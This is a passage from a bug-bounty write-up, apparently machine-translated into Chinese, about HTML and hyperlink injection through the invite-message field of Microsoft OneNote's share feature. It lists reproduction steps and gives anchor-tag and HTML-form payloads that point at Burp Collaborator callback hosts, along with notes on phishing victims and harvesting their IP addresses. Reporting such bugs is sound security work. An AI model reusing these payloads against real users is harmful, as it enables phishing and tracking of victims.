








# 通过 Microsoft Onenote 应用程序中的共享选项插入 HTML 和超链接

> 原文：<https://infosecwriteups.com/html-and-hyperlink-injection-via-share-option-in-microsoft-onenote-application-47e94d0e6478?source=collection_archive---------0----------------------->

> 超链接注入是指攻击者在发送电子邮件邀请时注入恶意链接。HTML 注入攻击是通过网站易受攻击的部分注入 HTML 代码。恶意用户通过任何易受攻击的字段发送 HTML 代码，目的是更改网站的设计或显示给用户的任何信息。可以在消息字段中插入 html 代码，这可用于将用户重定向到恶意网站，并通过标签导致网站内容的改变。

*   电子邮件中的超链接注入可能导致通过电子邮件直接发送给用户的网络钓鱼。
*   攻击者可以共享一个假标题，如“你赢得了 1000 卢比。点击认领”。
*   而在邮件中，本身由于 HTML 注入，就有可能注入 HTML 代码，做出 URL 超链接。可以进一步添加到假邮件中。
*   在邮件标题本身显示通过 outlook.com，这使得电子邮件的真实性。
*   攻击者只需要一封电子邮件，如果是公司(组织电子邮件),就可以绕过网络钓鱼保护。【href 属性的 using 标记中的 HTML 注入可用于将用户重定向到虚假 IP 或将流量重定向到任何 IP，这可进一步将流量重定向到域。
*   虚假链接可用于通过用户代理和位置收集用户信息，如 IP 地址和浏览器信息。通过添加标签，可以改变字体大小和外观，从而导致部分污损。
*   攻击者唯一需要的是一封电子邮件，如果是公司(组织电子邮件),这可以绕过网络钓鱼保护。

# 复制步骤:

*   创建新的笔记本并通过 attacker@outlook.com 用户登录。
*   点击右上角的共享。在“共享选项”>邀请人们加入笔记本。



*   然后键入电子邮件并包含消息。
*   在包含消息中，输入下面提到的任何有效载荷:



1) HTML 标签:`<a href=”https://burpcollaboratorlink.burpcollaborator.net"> Click to win</a>`

2)图像标签:``

3) HTML 表单:

```
< html>
< body>
< h2 >HTML Forms< /h2 >
< form action="burp-coolaborator.burpcollaborator.net">
< label for="fname">First name:< /label>< br>
< input type="text" id="fname" name="fname" value="John">< br>
< label for="lname">Last name:< /label>< br>
< input type="text" id="lname" name="lname" value="Doe">< br>< br>
< input type="submit" value="Submit">
< /form>
< p>Click to win< /p>
< /body>
< /html>
```



HTML 表单

*   分享给受害者。
*   在 outlook 上检查网络钓鱼邮件。



展望标签



Outlook 网络钓鱼电子邮件

*   在 gmail 上查看邮件。



Gmail 钓鱼电子邮件

*   一旦受害者点击链接，它将被重定向到恶意网站。



受害者的打嗝合作者 IP 回拨

# 影响

*   href 属性的 using 标记中的 HTML 注入可用于将用户重定向到假 IP 或将流量重定向到任何 IP，这可进一步将流量重定向到域。
*   虚假链接可用于通过用户代理和位置收集用户信息，如 IP 地址和浏览器信息。

> 一旦问题得到解决，它就会被 MSRC 计划标记为超出范围。



***来自 Infosec 的报道:****Infosec 上每天都会出现很多让人难以跟上的事情。加入我们的* ***每周简讯*** *以 5 篇文章、4 个线程、3 个视频、2 个 Github Repos 和工具以及 1 个* ***工作提醒的形式免费获取所有最新的信息安全趋势！****[*https://weekly.infosecwriteups.com/*](https://weekly.infosecwriteups.com/)*